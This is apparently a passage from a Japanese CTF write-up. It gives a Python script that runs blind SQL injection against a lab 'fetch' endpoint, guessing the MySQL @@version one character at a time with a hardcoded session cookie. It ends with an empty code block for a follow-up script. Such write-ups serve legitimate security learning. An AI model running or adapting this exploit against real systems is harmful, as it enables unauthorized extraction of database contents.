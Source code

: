 ![image](https://user-images.githubusercontent.com/56021519/103920784-0bfafc00-5155-11eb-9313-b2415a015930.png)  
以下の単純な全探索のBlindで`@@version`を試している。これでバージョンがゲットできたので、DBはMySQLとわかる。  
```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse
import urllib3
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(InsecureRequestWarning)

url = "http://35.227.24.107/2116b46989/fetch"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
candidates = [chr(i) for i in range(48, 48+10)] + \
    [chr(i) for i in range(97, 97+26)] + \
    [chr(i) for i in range(65, 65+26)] + \
    ["_","-","+","@","$","!","?","&",".","#"]
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url + "?id=1" + urllib.parse.quote(attack_sql)
    #print(attack_url)
    res = requests.get(attack_url, headers=headers,verify=False)
    #print(res.text)
    return res

def create_pass_query(pw):
    query = " and if(substr(@@version," + str(len(pw)) + ",1)='" + pw[-1] + "',1=1,1=3) -- -"
    #print(query)
    return query

def check_result(res):
    if '404 Not Found' in res.text:
        return False
    if '500 Internal Server Error' in res.text:
        return False
    return True

####################
###     main     ###
####################

# find pw
fix_pass = ""
is_end = False
while not is_end:
    for c in candidates:
        try_pass = fix_pass + str(c)
        print(try_pass)
        query = create_pass_query(try_pass)
        res = attack(query)
        if check_result(res):
            fix_pass += c
            break
        if c == '#':
            is_end = True
            

print("result: " + fix_pass)
```
**mysql-enum-databases-get-binarysearch.py**  
```python
```
